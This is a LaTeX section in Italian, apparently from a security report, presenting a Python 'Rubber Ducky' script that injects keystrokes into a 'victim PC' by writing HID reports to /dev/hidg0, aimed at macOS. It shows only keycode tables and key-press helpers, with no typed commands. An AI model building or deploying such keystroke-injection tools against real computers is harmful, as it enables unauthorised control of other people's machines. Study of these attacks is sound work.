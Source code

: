 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Approccio Nativo Linux (senza librerie esterne)}
Il payload è scritto in Python puro, senza librerie esterne, scrivendo
direttamente sul device \texttt{/dev/hidg0} tramite report HID standard.
Questo approccio non richiede connessione internet per l'installazione di dipendenze.

\begin{lstlisting}[language=Python, caption=payload.py -- Script HID nativo]
#!/usr/bin/env python3
"""
Rubber Ducky Payload - Approccio nativo Linux
Scrive direttamente su /dev/hidg0 senza librerie esterne
Target: macOS (adattabile a Windows/Linux)
"""
import time
import struct

# Keycodes HID standard (USB HID Usage Tables)
KEY_ENTER    = 0x28
KEY_SPACE    = 0x2C
KEY_MOD_META = 0x08  # CMD su Mac / WIN su Windows

# Mappa caratteri minuscoli -> keycode HID
CHAR_MAP = {
    'a': 0x04, 'b': 0x05, 'c': 0x06, 'd': 0x07, 'e': 0x08,
    'f': 0x09, 'g': 0x0A, 'h': 0x0B, 'i': 0x0C, 'j': 0x0D,
    'k': 0x0E, 'l': 0x0F, 'm': 0x10, 'n': 0x11, 'o': 0x12,
    'p': 0x13, 'q': 0x14, 'r': 0x15, 's': 0x16, 't': 0x17,
    'u': 0x18, 'v': 0x19, 'w': 0x1A, 'x': 0x1B, 'y': 0x1C,
    'z': 0x1D, '1': 0x1E, '2': 0x1F, '3': 0x20, '4': 0x21,
    '5': 0x22, '6': 0x23, '7': 0x24, '8': 0x25, '9': 0x26,
    '0': 0x27, ' ': 0x2C, '\n': 0x28, '=': 0x2E, '/': 0x38,
    '.': 0x37, '-': 0x2D,
}

# Mappa caratteri maiuscoli/speciali (con SHIFT)
SHIFT_MAP = {
    'A': 0x04, 'B': 0x05, 'C': 0x06, 'D': 0x07, 'E': 0x08,
    'F': 0x09, 'G': 0x0A, 'H': 0x0B, 'I': 0x0C, 'J': 0x0D,
    'K': 0x0E, 'L': 0x0F, 'M': 0x10, 'N': 0x11, 'O': 0x12,
    'P': 0x13, 'Q': 0x14, 'R': 0x15, 'S': 0x16, 'T': 0x17,
    'U': 0x18, 'V': 0x19, 'W': 0x1A, 'X': 0x1B, 'Y': 0x1C,
    'Z': 0x1D, '!': 0x1E, '"': 0x34, ':': 0x33, '_': 0x2D,
}

def send_report(modifier, keycode):
    """Invia un report HID al PC vittima tramite /dev/hidg0"""
    report  = struct.pack('8B', modifier, 0, keycode, 0, 0, 0, 0, 0)
    release = struct.pack('8B', 0, 0, 0, 0, 0, 0, 0, 0)
    with open('/dev/hidg0', 'rb+') as f:
        f.write(report)   # Tasto premuto
        time.sleep(0.05)
        f.write(release)  # Tasto rilasciato
        time.sleep(0.05)

def press_combo(modifier, keycode):
    """Premi una combinazione di tasti (es. CMD+SPACE)"""
    send_report(modifier, keycode)


\end{lstlisting}
\end{document}
